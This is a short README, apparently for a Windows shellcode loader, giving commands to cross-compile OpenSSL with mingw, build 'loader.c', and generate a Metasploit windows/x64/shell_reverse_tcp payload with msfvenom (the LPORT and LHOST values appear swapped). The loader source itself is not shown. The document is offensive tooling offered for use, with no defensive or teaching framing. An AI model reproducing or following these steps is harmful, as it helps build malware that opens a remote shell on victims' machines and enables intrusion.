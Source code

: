# COMPILATION INSTRUCTIONS

## Install openssl windows
```bash
wget https://www.openssl.org/source/openssl-1.1.1v.tar.gz
gunzip openssl-1.1.1v.tar.gz
tar -xvf openssl-1.1.1v.tar
cd openssl-1.1.1v
./Configure mingw64 --cross-compile-prefix=x86_64-w64-mingw32- --prefix=/usr/local/openssl-windows
make
make install
```

## Compile on windows10
```bash
x86_64-w64-mingw32-gcc loader.c -o loader.exe -I/usr/local/openssl-windows/include -L/usr/local/openssl-windows/lib -lcrypto -lssl -lws2_32
```

## Compile on windows11
```bash
x86_64-w64-mingw32-gcc loader.c -o loader.exe -I/usr/local/openssl-windows/include -L/usr/local/openssl-windows/lib -lcrypto -lssl -lws2_32 -static
```

## Generate shellcode
```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=<IP> LHOST=<IP> -f hex
```
